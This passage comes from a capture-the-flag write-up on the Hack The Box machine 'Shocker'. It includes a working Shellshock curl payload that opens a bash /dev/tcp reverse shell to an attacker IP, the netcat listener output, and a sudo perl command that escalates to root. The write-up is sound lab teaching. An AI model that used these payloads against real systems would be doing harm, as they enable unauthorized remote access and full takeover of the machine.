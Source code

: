 NICE! We were not only able to execute code on the target machine, but actually send a message *back* to our attacker machine! Alright, let's see if we can get a fully interactive reverse shell. We'll try to get a /dev/tcp reverse shell using the following:<br>
`bash -i >& /dev/tcp/10.10.16.192/12345 0>&1`<br>
If this works, we should expect to get a fully interactive reverse shell back on our netcat listener (we'll have to restart our netcat listener).

Exploit:
```bash
┌──(kali㉿kali)-[~/htb/Shocker]
└─$ curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.16.192/12345 0>&1'" http://10.10.10.56/cgi-bin/user.sh
```

Shell:
```bash
┌──(kali㉿kali)-[~/htb/Shocker]
└─$ nc -lnvp 12345
listening on [any] 12345 ...
connect to [10.10.16.192] from (UNKNOWN) [10.10.10.56] 48196
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
shelly@Shocker:/usr/lib/cgi-bin$ 
```
<br>

# Escalation
---

VERY NICE! Okay, we are now controlling the target machine as user `shelly` whomever that is... Let's look around and see if we can escalate our privileges to root.

```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/usr/lib/cgi-bin$ 
```

 First thing I always check is what can the current user run as `sudo` but without a password. To do this, we can run `sudo -l`, if we're prompted for a password and we don't know it, then we're out of luck.... however, we're not out of luck here! We are able to run `/usr/bin/perl` as `sudo` without the need of a password. Huh, a programming language that we can run as root - I wonder whatever we'll be able to do with that? Maybe, tell it to start a new shell?

Yup! If you don't know immediately what to do, don't worry about it, let's go to [GTFOBins](https://gtfobins.github.io/) and look up perl to see if it has anything. If we search `perl` we can see that we can run a myriad of things, the one we're most interested in is `sudo`. According to GTFOBins, we can run `sudo perl -e 'exec "/bin/sh";'` and get a shell.. However, look at the results of `sudo -l` and you'll see that we need a TINY adjustment, we just need to specify the full path of perl. Easy enough:
